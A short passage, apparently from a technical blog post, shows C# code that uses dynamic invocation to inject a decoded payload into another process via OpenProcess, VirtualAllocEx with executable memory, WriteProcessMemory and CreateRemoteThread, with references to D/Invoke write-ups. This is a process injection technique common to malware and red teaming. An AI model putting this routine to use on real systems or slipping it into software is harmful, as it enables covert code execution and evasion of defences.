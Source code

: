 This will allow us to refine the code inside the `Main` in this one:

```csharp
DLL k32 = new DLL("kernel32.dll");
           
var openProcess = k32.ChaseFunction("OpenProcess") as OpenProcess;
var hProcess = openProcess(0x001F0FFF, false, int.Parse(args[0]));

var virtualAllocEx = k32.ChaseFunction("VirtualAllocEx") as VirtualAllocEx;
var alloc = virtualAllocEx(hProcess, IntPtr.Zero, (UInt32)decoded.Length, 0x3000, 0x40);

UInt32 bytesWritten = 0;
var writeProcessMemory = k32.ChaseFunction("WriteProcessMemory") as WriteProcessMemory;
writeProcessMemory(hProcess, alloc, decoded, (UInt32)decoded.Length, out bytesWritten);

var createRemoteThread = k32.ChaseFunction("CreateRemoteThread") as CreateRemoteThread;
createRemoteThread(hProcess, IntPtr.Zero, 0, alloc, IntPtr.Zero, 0, IntPtr.Zero);
```

I find this example way cleaner that the previous one, especially for long programs.

# References

* [https://rastamouse.me/blog/process-injection-dinvoke/](https://rastamouse.me/blog/process-injection-dinvoke/)
* [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)